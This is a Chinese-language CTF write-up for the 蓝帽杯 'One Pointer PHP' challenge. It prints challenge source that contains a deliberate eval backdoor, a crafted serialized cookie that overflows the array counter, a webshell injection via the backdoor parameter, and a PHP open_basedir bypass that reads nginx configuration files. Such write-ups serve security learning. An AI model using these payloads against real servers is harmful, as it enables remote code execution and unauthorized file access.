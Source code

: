 ```yaml
---
title: "蓝帽杯 One Pointer PHP"
date: 2021-05-04T21:30:20+08:00
---
```


两个web，一个js小游戏代码审计1小时，玩10秒弹flag什么鬼，还有一个就是这道全场1解题。

```php
<?php
class User{
	public $count;
}

if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

题目给了源码，第一关是数组溢出，需要`$count[]=1`，这一步赋值操作报错即可命令执行，貌似php的溢出长度和操作系统有关，我在本地尝试的时候2^31-1即可绕过，但题目上需要2*63-1，不过关系不大，然后蚁剑连上去即可。

```
add_api.php?backdoor=eval($_POST[theoyu])；
蚁剑设置Cookie
data=O%3a4%3a"User"%3a1%3a{s%3a5%3a"count"%3bi%3a9223372036854775806%3b}
```

发现只能看当前目录，多半是`open_basedir`设置了只有当前目录，不过这个好说，p神有文章绕过这个，然后看了一眼**phpinfo()** ...

![image-20210505180925973](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505180925973.png)

**putenv** 居然被过滤了！前几天还专门研究了这个，不过在**phpinfo()** 中发现**Server API =FPM/FastCGI** ，之前学**SSRF** 的时候有接触过这个，可以通过这个RCE，但好像根本没有ssrf的入口..思绪在这里就断了

好像没啥会的了，就尝试读一下配置文件，读取方式如下：

```php
<?php
mkdir('theoyu');
chdir('theoyu');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');

ini_set('open_basedir','/');

// 此处用来读目录
// $a = new DirectoryIterator("glob:///etc/nginx/sites-enabled/*");
// foreach($a as $f){
//     echo($f->__toString().'<br>');
// }

//此处用来读文件
echo file_get_contents('/etc/nginx/sites-enabled/default');
?>
```